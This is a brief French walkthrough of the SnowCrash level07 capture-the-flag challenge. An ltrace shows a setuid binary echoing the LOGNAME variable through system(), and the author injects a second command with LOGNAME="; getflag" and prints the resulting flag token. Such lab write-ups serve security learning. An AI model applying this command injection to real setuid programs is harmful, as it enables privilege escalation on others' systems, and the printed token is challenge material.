 # LEVEL07

ls -l : `-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07`

```
level07@SnowCrash:~$ ltrace ./level07 
__libc_start_main(0x8048514, 1, 0xbffff7f4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                              = 2007
geteuid()                              = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280) = 0
getenv("LOGNAME")                      = "level07"
asprintf(0xbffff744, 0x8048688, 0xbfffff46, 0xb7e5ee55, 0xb7fed280) = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                 = 0
+++ exited (status 0) +++
```

On peut voir l'appel à la variable environnement **LOGNAME** (*getenv("LOGNAME")*).

Éxécution du programme nous affiche : 

```
level07@SnowCrash:~$ ./level07 
level07
```

On peut en déduire que le contenu de la variable environnement est affiché avec la commande **echo**, et qu'il est possible de rajouter une commande.

```
level07@SnowCrash:~$ LOGNAME="; getflag"
level07@SnowCrash:~$ ./level07 

Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
